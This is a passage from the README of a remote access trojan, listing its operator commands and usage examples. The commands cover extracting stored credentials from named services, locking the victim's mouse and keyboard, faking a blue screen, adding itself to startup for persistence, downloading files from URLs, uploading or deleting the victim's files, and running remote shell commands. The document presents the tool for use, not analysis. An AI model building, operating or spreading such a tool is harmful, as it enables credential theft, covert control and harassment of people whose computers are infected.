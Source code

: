 ### Credential Commands
- `!steal` - List supported credential services
- `!steal <service>` - Extract credentials from specified service

### Interactive Commands
- `!troll tts <message>` - Text-to-speech output
- `!troll bluescreen` - Trigger blue screen effect
- `!troll wallpaper <url>` - Change desktop wallpaper
- `!troll lock/unlock mouse` - Control mouse access
- `!troll lock/unlock keyboard` - Control keyboard access
- `!troll azerty/qwerty` - Switch keyboard layout
- `!troll revertall` - Revert all modifications
- `!message <text>` - Display message box
- `!website <url>` - Open website in default browser

### Utility Commands
- `!startup add/remove` - Manage startup programs
- `!uploadlink <url>` - Download and process file from URL
- `!exit` - Terminate the RAT application

## Usage Examples

### Taking a Screenshot
```
!screenshot
!screenshot 1
```

### File Operations
```
!ls C:\Users
!file upload C:\document.txt
!file delete C:\temp\oldfile.txt
```

### System Information
```
!info system
!info hardware
!admincheck
```

### Remote Control
```
!shutdown
!restart
!cmd dir
```

## Contributing
